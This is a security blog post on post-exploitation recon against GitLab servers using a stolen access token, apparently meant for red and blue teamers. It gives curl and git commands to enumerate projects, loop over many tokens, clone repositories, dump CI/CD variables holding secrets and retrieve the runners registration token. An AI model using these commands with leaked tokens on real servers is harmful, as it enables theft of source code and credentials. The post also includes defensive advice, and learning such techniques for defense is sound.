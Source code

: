 ```yaml
---
title: "Gitlab Reconnaissance Introduction"
date: 2022-02-28T04:22:22-22:22
draft: true
tags: [
        "pentest", "red","research", "cicd", "devops"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Gitlab Reconnaissance Introduction"
  description:  "Hacking Gitlab Servers"
  image: "https://embracethered.com/blog/images/2020/hacker.png"
---
```


Although Gitlab is not as popular as Github, it’s common to run across it these days. Especially after Microsoft acquired Github it seemed more individuals and organizations flocked over to Gitlab. 

In this post I want to document a couple of recon commands that are useful post-exploitation, and for blue teamers to watch out for. 

Let's assume one has access to a Gitlab Token as a precursor. Let's walk through some interesting commands and script snippets to leverage to find out more.

## Found a Gitlab Token - what to do?

First, let's define a couple environment variables that will be used recurringly.

```
TOKEN=$(cat .token)
GITLAB_HOST=[yourserver]
GITLAB_API="https://$GITLAB_HOST/api/v4"
```

That's it, and these variables are pretty self-explanatory.


### Who I Am?

The first obvious command once a token has been found is to check what user it belongs to.

```
curl --silent --header "Authorization: Bearer $TOKEN" "$GITLAB_API/user" | jq .username
```

Note: One can also provide a dedicated HTTP header `PRIVATE-TOKEN` to the Gitlab instance. More useful information is documented by [Gitlab here](https://docs.gitlab.com/ee/security/token_overview.html).

## Retrieving Projects

With a valid token one can enumerate projects:

```
curl --silent --header "Authorization: Bearer $TOKEN" \
     "$GITLAB_API/projects/owned=true&simple=true&per_page=100" | jq 
```

An adversary might look for projects they "own", so they can do check-ins, like for instance check-in a `.gitlab-ci.yml` file to modify/create a CI/CD pipeline.

Assuming you have a list of tokens (we are red teamers after all), one can also loop over and call the API with something like this:

```
TOKENS=$(cat .tokens)
for T in $TOKENS
do
    curl --silent --header "Authorization: Bearer $T" \
         "$GITLAB_API/projects/owned=true&simple=true&per_page=100" | jq 
done
```

It might also be useful to pipe this information into a file for laters analysis.

## Cloning Projects

Source Code often contains clear text credentials. To search through the code for secrets and other information Gitlab provides the capability to leverage the API token using `git` to pull projects from the server.

Here is how this looks like in action:

```
PROJ_PATH=MyProject/KoiPhish/KoiPhish.git
git -C ./src/ clone "https://gitlab-ci-token:$TOKEN@$GITLAB_HOST/$PROJ_PATH
```

Notice the username `gitlab-ci-token` in the URL. There are also a couple of other ways to do this. Again, refer to the [Gitlab documenation](https://docs.gitlab.com/ee/security/token_overview.html) for further details.

## Enumerating Gitlab CI/CD Variables

Gitlab CI/CD variables are great! Why? Because the often contain clear text secrets as well! 

A command to enumerate them is:

```
PROJECT_ID=123
curl --silent \
     --header "Authorization: Bearer $TOKEN" \ 
     "$GITLAB_API/projects/$PROJECT_ID/variables" | jq 
```

An adversary might find interesting passwords, tokens, or access keys in CI/CD variables.

**Tip: Engineers can protect their variables and not expose them widely. One can use protected variables that are only accessible from certain branches for instance.**

## Group and Instance-level Variables

Wait, there is more:

* Gitlab also has Groups and [Groups can have variables](https://docs.gitlab.com/ee/api/groups.html) also!
* [Instance-level CI/CD variables](https://docs.gitlab.com/ee/api/instance_level_ci_variables.html) are only accessible to the administrator.

## Runners Token

Inside the projects details I also discovered a `runners_token`. 

```
PROJECT_ID=123
curl --silent --header "Authorization: Bearer $TOKEN" \
     "$GITLAB_API/projects/$PROJECT_ID" | jq .runners_token | jq 
```

From the Gitlab documentation: 

> After registration, the runner receives an authentication token, which it uses to authenticate with GitLab when picking up jobs from the job queue. The authentication token is stored locally in the runner’s config.toml file.

Initially I assumed that token is the authentication token, but it's actually the **Registration Token**. 

It took me a while to realize that. Initially I had tried to verify the token as an auth token using:

```
curl --request POST "$GITLAB_API/runners/verify" --form "token=$RUNNER_TOKEN"
```

But that didn't work. Then I realized that the `runners_token` is the shown in the Projects CI/CD pipelines page as the Registration Token. So, gaining access to this implies that you can register your own runners! 

More information on how Runners registration works can be found [here](https://docs.gitlab.com/runner/register/).

Interestingly, just two days ago there was a [critical CVE issued](https://about.gitlab.com/releases/2022/02/25/critical-security-release-gitlab-14-8-2-released/#runner-registration-token-disclosure-through-quick-actions) by Gitlab regarding Runner Registration Tokens.

## SSH Keys 

Admins can also get [SSH keys for users](https://docs.gitlab.com/ee/api/keys.html) - I have not tried this yet, but it seems like one of these features that shouldn't exist, and I thought to point it out.

## Detecting Access Anomalies

For Blue Teamers identifying access anomalies seems like a good approach to identify if a token has leaked and is actively being abused by an adversary.

## Conclusion

This is a short introduction around Gitlab based recon and CI/CD attacks. There are really a lot of fun avenues for adversaries to abuse DevOps infrastructure. There is a lot of information accessible once one gains access to DevOps infrastructure. Keep an eye out as I will be posting more interesting research down the road.


## References

* [Gitlab API Documentation](https://docs.gitlab.com/ee/api)
* [Gitlab Access Token Documenation](https://docs.gitlab.com/ee/security/token_overview.html)
* [SSH keys for users](https://docs.gitlab.com/ee/api/keys.html)
* [Critical Gitlab CVE](https://about.gitlab.com/releases/2022/02/25/critical-security-release-gitlab-14-8-2-released/#runner-registration-token-disclosure-through-quick-actions)
